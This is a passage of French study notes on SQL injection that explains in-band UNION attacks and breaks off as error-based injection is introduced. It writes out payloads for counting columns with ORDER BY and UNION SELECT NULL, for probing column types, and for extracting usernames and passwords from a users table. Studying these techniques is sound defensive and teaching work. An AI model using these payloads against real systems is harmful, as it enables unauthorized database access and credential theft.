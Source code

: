 Il existe plusieurs type de serveurs SQL :

- SQL Server (Windows and .NET)
- MySQL (Linux and Python/Php/Java)
- Oracle

Les injections SQL peuvent être classifiée en 3 catégories :

### **1) Injection in-band**

Le plus commun et facile à exploiter : l'attaquant utilise le même canal pour lancer l'attaque et recueillir les résultats.

1.  Injection SQL **UNION** : permet d'extraire des données sur d'autres tables.
    
    - Exemple : SELECT a, b FROM table1 UNION SELECT c, d FROM table2
    - Les deux requêtes doivent retourner le même nombre de colonnes, et les données doivent être du même types (type(a) = type(c) ; type(b) = type(d)).
    - Pour déterminer le nombre de colonnes retournée par la requête :
        
        1.  Injecter une série de `ORDER BY X` en incrémentant `X` jusqu'à ce qu'une erreur apparaît :
        
        ```
        ' ORDER BY 1--
        ' ORDER BY 2--
        ' ORDER BY 3--
        ```
        
        2.  Injecter une série de `UNION SELECT NULL` avec le même principe :
        
        ```
        ' UNION SELECT NULL--
        ' UNION SELECT NULL,NULL--
        ' UNION SELECT NULL,NULL,NULL--
        ```
        
    - Pour déterminer le type d'une des colonnes de la table (en ayant au préalable déterminer le nombre de colonnes) :
        
        ```
        ' UNION SELECT 'a',NULL,NULL,NULL--
        ' UNION SELECT NULL,'a',NULL,NULL--
        ' UNION SELECT NULL,NULL,'a',NULL--
        ' UNION SELECT NULL,NULL,NULL,'a'--
        ```
        
        Dans ce cas de figure, on cherche une string ('a') : si un message d'erreur de conversion impossible apparaît, la colonne n'est pas du type testé.
    - Pour retrouver la valeur cherchée (en ayant au préalable déterminer le nombre de colonne et le type du champ testé), en supposant qu'on cherche les champs username et password de la table users :
        `' UNION SELECT username, password FROM users--.`
    - Dans le cas où la requête ne renvoie qu'une valeur, pour concaténer : `' UNION SELECT username || '~' || password FROM users--`.
2.  Injection SQL **ERROR-BASED** : injection de commandes erronnées qui permet d'obtenir des informations sur la structure du serveur à cause de message d'erreur trop verbeux.
    
